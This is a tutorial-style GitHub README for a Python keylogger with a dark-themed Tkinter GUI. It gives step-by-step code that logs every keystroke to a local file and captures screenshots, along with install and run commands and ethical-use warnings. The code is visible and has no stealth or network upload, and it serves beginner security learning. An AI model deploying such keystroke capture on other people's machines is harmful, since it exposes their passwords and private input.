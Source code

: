 ### 💀🕶️ Black Phantom Logger

## ⚠️ Warning & Ethical Considerations
**🚨 This tool is meant for eductional purpose and learning cybersecurity only!**
- Do **not** use this tool without proper authorization.
- Unauthorized use of keyloggers is **illegal and punishable** by law.
- The author **takes no responsibility** for any unethical or misuse use of this code.

🔴 **Use responsibly and ethically.**

## 🛠️ Tools Used
For writing and running the Python script, I used:

Thonny IDE – A beginner-friendly Python environment, great for easy script execution and debugging.

## 📦 Required Python Libraries
Before running the keylogger, install the necessary libraries:

`pip install pynput tkinter opencv-python pyautogui pillow`

# Libraries Explained:

`pynput` – Captures keystrokes in the background.

`tkinter` – Creates the GUI for our Black Phantom Logger.

`opencv-python` – Helps handle images (optional for additional features).

`pyautogui` – Captures screenshots.

`PIL (pillow)` – Supports image manipulation inside the GUI.

## 🚀 Project Overview
This is a simple keylogger with a dark hacker-themed GUI named Black Phantom Logger. It records keystrokes and saves them to a file. It also includes:

A graphical user interface (GUI) using Tkinter.

A dark "hacker-style" theme with a black and green aesthetic.

A button for starting and stopping the keylogger.

A logo of a hacker to enhance the simulation experience.

A feature to capture the screen as an extra functionality.

📜 Code Walkthrough
Let's break down the script step by step!

# 1️⃣ Importing Required Modules

```python
import tkinter as tk
from tkinter import messagebox
from pynput.keyboard import Listener
import os
import pyautogui
from PIL import Image, ImageTk
```

`tkinter` – Creates the graphical interface.

`pynput.keyboard.Listener` – Monitors and records keystrokes.

`os` – Handles file operations.

`pyautogui` – Captures screenshots.

`PIL.Image, ImageTk` – Displays images in the GUI.

# 2️⃣ Creating the GUI (Graphical User Interface)

```python
root = tk.Tk()
root.title("Black Phantom Logger")
root.geometry("400x400")
root.configure(bg="black")
`tk.Tk()` – Initializes the main window.

`title("Black Phantom Logger")` – Sets the program title.

`geometry("400x400")`– Defines the window size.

`configure(bg="black")` – Applies the dark hacker-style theme.
```

3️⃣ Adding a Hacker-Style Logo

```python
logo = Image.open("hacker_logo.png")  # Make sure you have an image named hacker_logo.png
logo = logo.resize((100, 100))
logo = ImageTk.PhotoImage(logo)
logo_label = tk.Label(root, image=logo, bg="black")
logo_label.pack()
Loads a hacker-themed image to enhance the look.

Resizes the image and places it in the GUI.
```

4️⃣ Keystroke Logging Function
 ```python
def log_keystrokes(key):
    key = str(key).replace("'", "")
    with open("keystrokes.txt", "a") as file:
        file.write(key + "\n")
Converts each pressed key into a string.

Saves the keystrokes into a text file (keystrokes.txt).
```

5️⃣ Screenshot Capture Function

```python
def capture_screen():
    screenshot = pyautogui.screenshot()
    screenshot.save("screenshot.png")
    messagebox.showinfo("Screenshot", "Screenshot saved as screenshot.png")
Uses pyautogui.screenshot() to take a snapshot.

Saves the image as "screenshot.png".

Displays a confirmation message.
```

6️⃣ Start & Stop Buttons

```python
def start_logger():
    global listener
    listener = Listener(on_press=log_keystrokes)
    listener.start()
    messagebox.showinfo("Logger", "Keylogger Started!")

def stop_logger():
    if listener:
        listener.stop()
        messagebox.showinfo("Logger", "Keylogger Stopped!")
start_logger() – Begins keylogging in the background.

stop_logger() – Stops the keylogger when needed.
```

7️⃣ Adding Buttons to GUI

```python
start_button = tk.Button(root, text="Start Logging", command=start_logger, bg="green", fg="white")
stop_button = tk.Button(root, text="Stop Logging", command=stop_logger, bg="red", fg="white")
screenshot_button = tk.Button(root, text="Capture Screen", command=capture_screen, bg="blue", fg="white")

start_button.pack(pady=10)
stop_button.pack(pady=10)
screenshot_button.pack(pady=10)
Buttons added:

Start Logging (Green Button)

Stop Logging (Red Button)

Capture Screen (Blue Button)
```
8️⃣ Running the GUI

 ```python
root.mainloop()
root.mainloop() keeps the window running.
```
### 🎭 Features & Hacker Simulation Experience
Dark Theme: A black & green color scheme for a hacker-like feel.

Hacker Logo: Enhances the interface's aesthetics.

Keylogging: Logs all keystrokes into a file.

Screen Capture: Takes a screenshot for additional monitoring.

### ⚠️ Warning & Ethical Considerations

🚨 This tool is meant for learning cybersecurity only!

Do not use this tool without proper authorization.

Unauthorized use of keyloggers is illegal and punishable by law.

The author takes no responsibility for any unethical use.

🔴 Use responsibly and ethically.

### 👨‍💻 How to Run the Keylogger
Install Thonny IDE (if not installed).

Download or clone this repository:
``bash
git clone https://github.com/AhmedSalahHassanQatar/PRODIGY_CS_04
cd PRODIGY_CS_04
```

Install dependencies:
pip install pynput tkinter opencv-python pyautogui pillow
Run the script in Thonny or terminal:
python keylogger.py

## 📜 Final Words
This project is a basic yet powerful way to understand how keyloggers work in a cybersecurity research context. If you're a beginner, this is a great starting point for learning about ethical hacking, Python scripting, and GUI development.

🚀 Happy Learning, and Stay Ethical!
